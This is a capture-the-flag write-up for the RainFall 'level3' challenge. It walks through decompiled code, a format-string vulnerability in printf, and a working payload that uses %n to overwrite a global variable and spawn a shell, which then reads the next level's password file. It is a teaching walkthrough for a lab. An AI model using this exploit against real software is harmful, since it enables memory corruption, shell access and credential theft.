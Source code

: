 ## Basic analysis

As we see, **level3** binary prints out what is being fed to it via stdin:
~~~shell
.level3 
42 let me pass
42 let me pass
~~~
Let's make a secure copy of the executable and examine it with **Ghidra**. We will discover that **main()** is just calling **v()** and returns.  
**v()** is using **fgets()** to get the input from user, saves it into the premade **char xxx[520]** string and prints it using **printf()**. That is what we see as program execution.
~~~C
void main(void)

{
  v();
  return;
}

void v(void)

{
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  printf(local_20c);
  if (m == 0x40) {
    fwrite("Wait what?!\n",1,0xc,stdout);
    system("/bin/sh");
  }
  return;
}
~~~
That's not all of course - there is condition comparing variable **m** to number **64** (0x40 in hexa). If true, it will let us pass to next level.
Thus, we need to somehow modify the variable m. It is not defined in the scope of v(), nor passed through from main, so it must be a global variable.
We use **gdb**'s "info variables" to get its memaddress: **0x0804988c**

## Format string attack
**printf()** can be utilized for **format string attack** as described [HERE](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/). We will force the insertion of value 64 into the **m** variable memory position by using printf's variadic nature.

**Step 1**: we find where in the stack is the variable read by fgets - this will be our way in. We do this by explouting printf to print us the memory:
~~~shell
level3@RainFall:~$ python -c 'print "AAAA" + " %p" * 10' | ./level3
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070
~~~
**0x41414141** is our "AAAA" input - AAAA is 41414141 in hex.

**Step 2**: We will craft the payload using **%[number]$n** formatter to precisely target the memory position. Variable m needs to be 64 bytes. Its memory address has four, so we add 60 bytes of stuff + the modifier. Like so:
~~~Shell
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' > /tmp/exploit
level3@RainFall:~$ cat /tmp/exploit - | ./level3
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
~~~
